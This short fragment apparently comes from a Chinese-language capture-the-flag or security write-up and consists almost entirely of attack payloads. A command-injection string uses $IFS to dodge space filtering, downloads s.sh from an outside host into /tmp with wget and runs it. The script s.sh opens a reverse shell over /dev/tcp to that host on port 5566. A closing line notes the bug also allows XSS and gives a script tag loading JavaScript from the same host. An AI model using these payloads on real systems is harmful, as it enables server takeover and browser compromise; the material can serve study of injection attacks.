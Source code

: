 site=';a=kaibro.tw/s.sh;b=/tmp;c=s.sh;cd$IFS$b;wget$IFS$a;sh$IFS$c;'


s.sh:

`bash -c 'bash -i >& /dev/tcp/kaibro.tw/5566 0>&1'`

---

除了Command Injection，他還可以XSS

`"><script src="http://kaibro.tw/gg.js"></script>`
